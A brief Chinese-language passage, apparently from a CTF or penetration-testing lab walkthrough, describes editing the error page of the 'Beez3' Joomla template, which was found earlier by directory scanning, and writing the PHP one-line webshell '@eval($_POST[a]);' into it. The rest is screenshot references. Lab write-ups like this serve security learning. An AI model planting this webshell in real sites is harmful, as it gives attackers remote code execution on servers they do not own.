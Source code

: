 Beez3

很熟悉

前面目录扫描的时候出现过

![image-20250406202853386](./assets/image-20250406202853386.png)

![image-20250406202904086](./assets/image-20250406202904086.png)

在error中写入一句话木马

```
@eval($_POST[a]);  
```

![image-20250406202945699](./assets/image-20250406202945699.png)
